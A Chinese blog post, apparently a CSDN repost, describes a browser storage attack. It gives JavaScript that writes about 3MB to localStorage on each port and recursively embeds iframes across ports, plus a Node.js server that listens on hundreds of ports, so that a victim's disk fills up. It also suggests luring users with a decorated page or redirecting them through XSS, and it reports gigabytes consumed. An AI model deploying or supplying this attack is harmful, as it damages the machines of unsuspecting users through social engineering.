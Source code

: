 ```yaml
---
title: LocalStorage 的一个漏洞
id: csdn50695843
---
```


LocalStorage 是 html5 的本地存储，其中的内容以文件的形式保存在本地磁盘中。

一个域（协议+域名+端口）的文件大小PC端为5~10M，移动端不大于2.5M。

但是我们可以在端口上做点手脚，因为端口是可控的，我们可以开一个服务器监听很多个端口，然后输出的页面使用iframe进行递归包含。

比如我们的页面可以嵌入以下代码：

```
(function(){
    var maxPort = ...;

    // 写文件
    var s = "";
    for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
    }
    localStorage.setItem('k', s);

    var port = parseInt(location.port) + 1;
    if(port > maxPort) return;

    if(port % 50 == 0){
        //每50个重定向一次，防止崩溃
        window.location.href = url;
    } else {
        // 新添加iframe
        var url = "http://example.com:" + port;
        var $iframe = document.createElement("iframe");
        $iframe.src = url;
        document.getElementsByTagName("body")[0].appendChild($iframe);
    }
})();
```

之后我们用Node.js架设服务器：

```
var http = require('http');
var fs = require('fs');

var content = fs.readFileSync('./index.html');

var maxPort = ...;

for(var port = 1000; port < maxPort; port++){
    http.createServer(function (request, response) {
        response.writeHead(200, { 'Content-Type' : 'text/html; charset=UTF-8' });
        response.write(content);
        response.end();
    }).listen(port);
}
```

我们可以给页面加点装饰，诱导用户点击。也可以使用现有的XSS漏洞重定向过去。

测试结果

100个端口有几乎500MB

![](../img/c324afd1d2dd4b88918af96c489c0181.png)

200个端口则有1.17个G

![](../img/d7244d27480e142fc44a3a5bb778c8e8.png)

如果将端口调整至2000个

![](../img/f3b1a4a10ff916e67f47e6b49be22279.png)

GG。

注

来源：[作为一个前端，可以如何机智地弄坏一台电脑？](http://litten.github.io/2015/07/06/hack-in-localstorage/)